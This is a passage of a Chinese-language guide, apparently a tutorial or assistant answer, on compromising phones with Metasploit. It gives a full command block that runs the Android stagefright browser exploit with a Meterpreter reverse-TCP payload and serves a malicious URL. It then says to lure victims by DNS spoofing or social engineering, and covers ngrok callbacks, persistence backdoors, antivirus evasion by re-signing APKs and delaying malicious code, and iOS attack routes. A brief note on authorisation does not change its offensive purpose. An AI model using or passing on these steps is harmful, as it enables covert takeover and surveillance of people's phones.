 **步骤 4：使用浏览器漏洞模块 (高级)**
当目标通过你的热点上网时，你可以尝试使用浏览器漏洞进行攻击。例如，针对旧版 Android 浏览器的漏洞。
```bash
# 搜索浏览器漏洞
search android browser

# 使用一个模块，例如（此为示例，具体模块需根据目标情况选择）
use exploit/android/browser/stagefright_mp4_tx3g_64bit

# 设置Payload和其他参数
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.1.104
set LPORT 5555
set SRVHOST 192.168.1.104
set SRVPORT 8080

# 执行
exploit -j
```
这会生成一个恶意 URL。你需要通过 DNS 欺骗（如 `ettercap`）将目标的流量重定向到这个 URL，或者直接通过社会工程学让他访问这个链接。

---

### **高级技巧与注意事项**

1.  **端口转发与持久化**：
    *   如果你的攻击机在内网，需要使用 `ngrok` 或 `serveo` 等工具进行端口转发，让公网的目标能回连到你。
    *   使用 `persistence` 模块在 Android 设备上建立持久化后门。

2.  **规避检测**：
    *   **APK 签名**： 使用一个看似合法的证书对 APK 重新签名。
    *   **权限最小化**： 在生成 Payload 时，可以尝试移除一些敏感的 Android 权限，但可能会影响功能。
    *   **动态行为**： 让恶意应用在初始阶段表现正常，延迟执行恶意代码。

3.  **针对 iOS**：
    *   针对 iOS 的渗透测试难度极高，通常需要：
        *   **企业证书**： 通过苹果的企业开发者账户签名应用，但容易被吊销。
        *   **Jailbreak（越狱）**： 主要针对已越狱设备，使用 `arm64` 的 Payload。
        *   **Safari 漏洞**： 利用未修补的 iOS Safari 浏览器漏洞，但这些漏洞非常珍贵且很快会被修复。

4.  **道德与法律红线**：
    *   始终确保你有**书面授权**。
    *   在测试结束后，**务必帮助客户清理后门和恶意应用**。
    *   明确测试范围，不能逾越。

### **总结**

手机场景的高级玩法核心在于 **"诱骗"** 和 **"隐蔽"**。

*   **社会工程学**是打开大门的钥匙。
*   **免杀技术**是延长访问寿命的关键。
*   **移动设备专用的 Meterpreter 命令**让你能深度操控目标手机。

要精通此道，你不仅需要熟悉 Metasploit，还需要了解 Android/iOS 应用开发、网络协议、社会工程学以及最新的漏洞信息。这是一个持续学习和实践的领域。
